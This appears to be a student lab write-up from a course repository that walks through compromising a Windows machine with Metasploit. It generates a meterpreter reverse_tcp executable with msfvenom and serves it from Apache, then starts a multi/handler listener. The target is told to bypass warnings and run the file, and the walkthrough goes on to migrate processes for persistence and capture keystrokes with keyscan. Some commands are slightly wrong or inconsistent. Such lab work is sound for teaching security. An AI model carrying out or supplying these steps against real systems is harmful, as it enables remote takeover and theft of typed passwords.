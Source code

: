 # Compromising-windows-using-Metasploit

NAME: GRACIA RAVI(212222040047)
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## Output:
![Screenshot 2024-10-28 155406](https://github.com/user-attachments/assets/7fb3d68e-8f57-488f-bc2c-92bbda026a8a)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## Output:
![Screenshot 2024-10-28 155421](https://github.com/user-attachments/assets/e8fdbb95-3174-4fde-9038-7da81a66bb0a)
copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155437](https://github.com/user-attachments/assets/d87dab41-b6b0-4647-9c2c-768feb45341c)

Start apache server sudo systemctl apache2 start
![Screenshot 2024-10-28 155451](https://github.com/user-attachments/assets/e8c70316-97bf-4ea0-816b-1ac7e353dd0e)
Check the status of apache2 sudo apache2 status
![Screenshot 2024-10-28 155537](https://github.com/user-attachments/assets/89f10144-5cf5-4b0e-b5e5-f81d538535b0)
Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## Output
![374867868-108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7](https://github.com/user-attachments/assets/c4b090c0-89b8-4b83-8999-b3010fbf9949)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![374867924-2d3c9bbd-30bf-4db7-8957-4760d26234a1](https://github.com/user-attachments/assets/fd6cf4ad-9f48-4976-92a6-39e92e09cad9)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit 
![374867950-3b6d33dd-159f-4798-926d-22dece021d73](https://github.com/user-attachments/assets/26cd1d8c-79c1-45c8-b70c-99a77fa8e219)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![374868025-70c71c8a-0ed9-42b7-a002-f07f1d50b459](https://github.com/user-attachments/assets/16edb9fa-6b4f-4f59-8255-30773597cfba)

keyscan_dump Shows the keystrokes captured so far
![374868055-1b9359f7-97a1-4452-9cd8-4abba68f2246](https://github.com/user-attachments/assets/1c6940f3-48f4-4140-97bd-ded02c042040)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

